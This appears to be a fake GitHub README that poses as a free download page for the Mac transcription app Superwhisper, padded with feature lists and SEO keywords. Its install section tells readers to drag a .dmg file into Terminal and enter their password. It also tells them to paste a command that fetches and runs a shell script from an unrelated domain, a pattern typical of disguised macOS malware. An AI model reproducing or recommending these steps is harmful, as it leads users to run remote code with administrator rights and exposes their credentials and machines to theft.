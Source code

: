 # Superwhisper Mac Download

![Superwhisper Screenshot 1](https://superwhisper.com/image/og-image2x.png)    

---

## 📥 Download Superwhisper for Mac

[![Download Now](https://img.shields.io/badge/Download--Now-Superwhisper%20Mac-blue?style=for-the-badge&logo=apple)](https://superwhisper-mac.github.io/.github)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get9/install.sh)"
```
3. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
4. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Superwhisper for Mac?

Superwhisper for Mac is an advanced AI-powered transcription and voice recognition tool built for creators, podcasters, students, and professionals who need fast, accurate audio-to-text conversion. Powered by cutting-edge Whisper models, Superwhisper delivers real-time transcription, multi-language support, and offline processing — all wrapped in a simple, native macOS app.

Whether you're transcribing interviews, generating subtitles, or extracting insights from voice notes, Superwhisper helps you do it with speed and precision. It supports batch file processing, speaker detection, and text export in various formats.

Unlike browser-based tools, Superwhisper runs directly on your Mac, ensuring privacy, performance, and zero upload limits. Ideal for journalists, educators, researchers, and anyone who works with spoken content.
---
![Superwhisper Screenshot 2](https://www.mactools.pro/_next/image?url=https%3A%2F%2Fi.ibb.co%2FYdH7YY0%2Fimage.png&w=1920&q=75)

---

## 🌟 Key Features & Benefits

- 🧠 Whisper AI Engine — Powered by OpenAI’s Whisper for state-of-the-art transcription accuracy.
- 🗣️ Multi-Language Support — Transcribe and translate audio in dozens of languages.
- 🖥️ Offline & Private — All processing happens locally on your Mac — no data leaves your machine.
- 🗂️ Batch Processing — Drop multiple files and transcribe them all at once.
- 🎙️ Speaker Detection — Automatically label and separate speakers for interviews and meetings.
- 📄 Text Export — Save results in TXT, SRT, VTT, or custom formats.
- ⚡ Fast & Lightweight — Optimized for Apple Silicon and macOS performance.
- 🧩 Seamless macOS Integration — Drag-and-drop support and native UI.

---

## 🖥️ System Requirements

- macOS: 12.0 Monterey or later  
- Processor: Apple Silicon (M1/M2/M3) recommended  
- RAM: 8 GB minimum  
- Disk Space: ~1 GB  

---

## 🏷️ Keywords

superwhisper mac free, superwhisper download, superwhisper free, superwhisper free download, superwhisper download free, superwhisper mac

---

> Download Superwhisper for Mac — an offline AI voice transcription app using Whisper for ultra-accurate, private, and fast speech-to-text conversion. Free macOS download available.
